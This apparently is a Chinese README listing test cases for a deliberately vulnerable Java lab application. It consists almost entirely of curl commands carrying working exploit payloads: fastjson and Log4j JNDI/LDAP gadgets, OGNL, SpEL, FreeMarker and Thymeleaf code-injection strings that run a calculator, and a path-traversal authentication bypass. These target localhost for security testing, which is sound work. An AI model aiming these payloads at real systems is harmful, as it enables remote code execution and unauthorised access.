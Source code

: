 ### 测试用例

1. 测试/actuator接口
2. 测试fastjson漏洞
   ```   
   curl 127.0.0.1:8080/fastjson/parse -d 'json={"@type":"org.apache.commons.proxy.provider.remoting.RmiProvider","host":"127.0.0.1",port:"1099","name":"Exploit"}'
   curl 127.0.0.1:8080/fastjson/parse -d 'json={"@type":"com.sun.rowset.JdbcRowSetImpl","dataSourceName":"ldap://127.0.0.1:1389/Exploit","autoCommit":true}'
   ```
3. 测试 alwaysUseFullPath 认证绕过漏洞: http://rui0.cn/archives/1643
   * 直接访问 /admin/auth 会提示认证失败
   * 使用 /admin/no-auth/%2e%2e/auth 可以绕过认证
4. 测试ognl执行
   ```
   curl 127.0.0.1:8080/ognl/parse -d 'ognl=#a%3d(new java.lang.ProcessBuilder(new java.lang.String[]{"open", "/System/Applications/Calculator.app/"})).start()'
   ```
5. 测试spel执行
   ```
   curl 127.0.0.1:8080/spel/parse -d "spel=T(java.lang.Runtime).getRuntime().exec('open /System/Applications/Calculator.app')"
   ```
6. 测试log4j漏洞
   ```
   curl 127.0.0.1:8080/log4j -d 'log=${jndi:ldap://127.0.0.1:1099/a}'
   ```
7. 测试freemarker漏洞(JythonRuntime需要本地有class): https://tttang.com/archive/1412/
   ```
   curl 127.0.0.1:8080/freemarker/unsafe -d 'template=<#assign value%3d"freemarker.template.utility.JythonRuntime"?new()><@value>import os;os.system("open /System/Applications/Calculator.app")</@value>'
   curl 127.0.0.1:8080/freemarker/unsafe -d 'template=<#assign value%3d"freemarker.template.utility.Execute"?new()>$${value("open /System/Applications/Calculator.app")}'
   ```
8. 测试jndi lookup
   ```
   curl 127.0.0.1:8080/jndi/lookup -d 'url=ldap://127.0.0.1:1389/a'
   ```
9. 测试thymeleaf模板注入
   ```
   curl 'http://127.0.0.1:8080/thymeleaf/path?lang=__%24%7BT(java.lang.Runtime).getRuntime().exec(%27%6F%70%65%6E%20%2F%53%79%73%74%65%6D%2F%41%70%70%6C%69%63%61%74%69%6F%6E%73%2F%43%61%6C%63%75%6C%61%74%6F%72%2E%61%70%70%27)%7D__::.xx'
   ```